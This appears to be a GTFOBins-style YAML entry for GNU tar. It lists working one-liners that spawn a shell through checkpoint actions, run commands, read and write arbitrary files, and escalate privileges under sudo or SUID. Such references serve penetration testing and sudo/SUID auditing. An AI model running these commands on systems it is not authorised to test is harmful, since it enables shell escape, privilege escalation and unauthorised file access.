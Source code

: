 ```yaml
---
functions:
  execute-interactive:
  - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  execute-non-interactive:
  - description: This only works for GNU tar.
    code: tar xf /dev/null -I '/bin/sh -c "id 1>&2"'
  file-write:
  - description: This only works for GNU tar.
    code: |
      LFILE=file_to_write
      TF=$(mktemp)
      echo data > "$TF"
      tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
  - description: This only works for GNU tar.
    code: |
      LFILE=file_to_read
      tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo-enabled:
  - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
  - code: "./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh"
---
```

